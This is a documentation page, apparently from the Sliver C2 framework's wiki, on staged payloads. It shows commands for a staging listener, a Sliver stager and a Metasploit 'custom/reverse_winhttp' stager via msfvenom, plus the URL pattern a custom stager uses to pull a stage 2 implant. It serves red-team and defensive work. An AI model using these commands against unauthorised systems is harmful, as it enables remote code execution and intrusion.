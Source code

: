 ### Metasploit: Bring Your Own Stager

If you want to use [stagers generated by the Metasploit Framework with Sliver](https://www.rapid7.com/blog/post/2022/09/16/metasploit-weekly-wrap-up-176/) (using `msfconsole`, `msfvenom` or the `generate stager` command), you will need to pass the additional `--prepend-size` flag to `stage-listener`, like this:

```
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode --prepend-size
```

This will prepend the size of the payload to the final binary sent to the stager, as required by Metasploit's `custom` payloads.

Sliver staging listeners only accept `tcp://`, `http://` and `https://` schemes for the `--url` flag. The format for this flag is `scheme://IP:PORT`. If no value is specified for `PORT`, an error will be thrown out.

We can now generate a stager using the `generate stager` command:

```
sliver > generate stager --lhost 192.168.122.1 --lport 1234 --protocol http --save /tmp

[*] Sliver stager saved to: /tmp/CIRCULAR_BRA
```

By default, the staging protocol used is TCP. The `--protocol` flag can be used to specify either `tcp`, `http` or `https` as the staging protocol.
The generated shellcode can now be used on the target system to start a new Sliver session.

## Generating Stagers with the Metasploit Framework

The Metasploit framework can also be used to generate stager shellcodes or binaries. One can use either `msfconsole` or `msfvenom` directly, and choose a `custom` payload type:

```
msfvenom -p windows/x64/custom/reverse_winhttp LHOST=192.168.122.1 LPORT=1234 LURI=/hello.woff -f raw -o /tmp/stager.bin
```

**Remark**: At the moment, the `custom/reverse_http` payload is not compatible with Sliver shellcodes (the stager crashes). However, one can use the `custom/reverse_winhttp` payload instead.

## Custom Stagers

One thing to consider while writing or using a custom stager, especially for the HTTP protocol, is that the Sliver server will only serve stage 2 payloads on specifically defined URLs. Indeed, since the HTTP staging listener is reusing the regular HTTP listener, it follows the same [procedural HTTP protocol](<https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#procedural-http-c2>).

The default file extension used to retrieve a stage 2 payload is `.woff`. It can be configured in the [HTTP C2 options](<https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#implant_config>) using the `stager_file_ext` setting.

As a result, if you want to implement your own stager to fetch a stage 2 payload via HTTP, you need to query a URL that looks like this: `http://SLIVER-SERVER:STAGING-PORT/whatever.woff`.
